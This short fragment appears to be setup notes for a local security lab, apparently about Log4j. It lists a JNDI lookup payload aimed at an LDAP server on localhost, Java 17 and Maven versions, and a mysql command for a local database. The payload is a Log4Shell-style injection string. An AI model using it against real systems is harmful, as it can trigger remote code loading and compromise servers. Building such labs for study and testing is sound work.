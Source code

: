 ${jndi:ldap://localhost:1389/a}

Dependencies : 

openjdk 17.0.10 2024-01-16
OpenJDK Runtime Environment Temurin-17.0.10+7 (build 17.0.10+7)
OpenJDK 64-Bit Server VM Temurin-17.0.10+7 (build 17.0.10+7, mixed mode, sharing)

Maven 3.9.6


connect from shell via mysql -h 127.0.0.1 -P 3306 -u root -p biscuits